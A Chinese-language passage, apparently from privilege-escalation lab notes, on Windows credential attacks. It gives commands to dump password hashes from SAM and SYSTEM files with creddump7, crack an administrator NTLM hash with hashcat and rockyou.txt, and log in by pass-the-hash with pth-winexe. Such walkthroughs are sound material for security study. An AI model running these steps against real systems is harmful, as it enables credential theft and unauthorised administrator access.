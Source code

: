 如果强行使用samdump2则只会dump处理`31d6cfe0d16ae931b73c59d7e0c089c0`也就是空密码

克隆creddump7存储库，（KALI默认安装的版本已过时）并使用它从SAM和SYSTEM文件中转出哈希值：

```
git clone https://github.com/Neohapsis/creddump7.git
sudo apt install python-crypto
python2 /tools/creddump7/pwdump.py SYSTEM SAM
```

![image-20200712165912750](assets/8.提权.assets/image-20200712165912750.png)

使用hashcat破解管理员NTLM哈希：

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

![image-20200712165840749](assets/8.提权.assets/image-20200712165840749.png)

您可以使用破解的密码通过winexe或RDP以管理员身份登录。

当然也可以通过hash传递进行登录，这里要完整hash`用户名%LM:NTLM`

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.5.7 cmd.exe
```
